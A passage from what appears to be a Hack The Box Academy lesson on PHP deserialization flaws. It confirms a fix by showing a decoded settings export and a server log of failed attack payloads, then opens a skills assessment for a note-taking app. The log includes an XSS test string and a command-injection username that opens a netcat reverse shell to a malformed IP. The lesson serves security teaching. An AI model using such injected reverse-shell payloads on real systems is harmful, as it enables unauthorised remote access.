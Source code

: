 ```php
...
<p class="text-success">{{ Session::get('ie-message') }}</p>
...

```

At this point, the vulnerabilities should all be fixed! If we run the new server, log in and click on `Export Settings` we will get a value similar to this:

```shell
echo eyJuYW1lIjoicGVudGVzdCIsImVtYWlsIjoicGVudGVzdEB0ZXN0LmNvbSIsInBhc3N3b3JkIjoiJDJ5JDEwJHU1bzZ1MkViak9tb2JRalZ0dTg3UU84WndRc0RkMnp6b3Fqd1MwLjV6dVByM2hxazl3ZmRhIiwicHJvZmlsZV9waWMiOiJ1cGxvYWRzXC83ZTRjMDkwZjdhMjBkMmI5YmVkYmE3ZGEwNTAyN2UzOS5qcGcifQ== | base64 -d
{"name":"pentest","email":"[email protected]","password":"$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda","profile_pic":"uploads\/7e4c090f7a20d2b9bedba7da05027e39.jpg"}

```

Our custom attack payloads will not work anymore, nor for the XSS...

![](https://academy.hackthebox.com/storage/modules/169/4/2-htbank-xss-fail.png)

... nor for the command injection ...

```shell
tail /tmp/htbank.log
[13.10.2022 12:35:15] Serialized user 'pentest'
[13.10.2022 12:35:55] Serialized user '<script>alert(1)</script>'
[13.10.2022 12:36:02] Unserialized user '<script>alert(1)</script>'
[13.10.2022 12:37:56] Serialized user 'pentest'
[13.10.2022 12:37:57] Unserialized user 'pentest'
[13.10.2022 12:38:08] Serialized user 'example'
[13.10.2022 12:38:10] Serialized user 'example'
[13.10.2022 12:38:11] Unserialized user 'example'
[13.10.2022 12:38:38] Serialized user '"; nc -nv 172.17.0.0.1 9999 -e /bin/bash; #'
[13.10.2022 12:38:41] Unserialized user '"; nc -nv 172.17.0.0.1 9999 -e /bin/bash; #'

```

... and trying the PHPGGC payload will result in a server error (when PHP tries to access `$userSettings->name` after decoding the "JSON" object).

![](https://academy.hackthebox.com/storage/modules/169/4/3-500-server.png)


# Skills Assessment I

* * *

You are tasked with testing the `HTBrain` note-taking application for vulnerabilities.

- **Your Second Brain**: "Your mind is for having ideas, not holding them.", so don't overload your brain with ideas; just dump them into HTBrain.
- **Convenient**: Our web app allows you to write down your thoughts and quick notes easily and securely.
- **Secure**: Our web app does not require any authentication or logins; all data is stored on the front end, and nothing is saved on our servers.
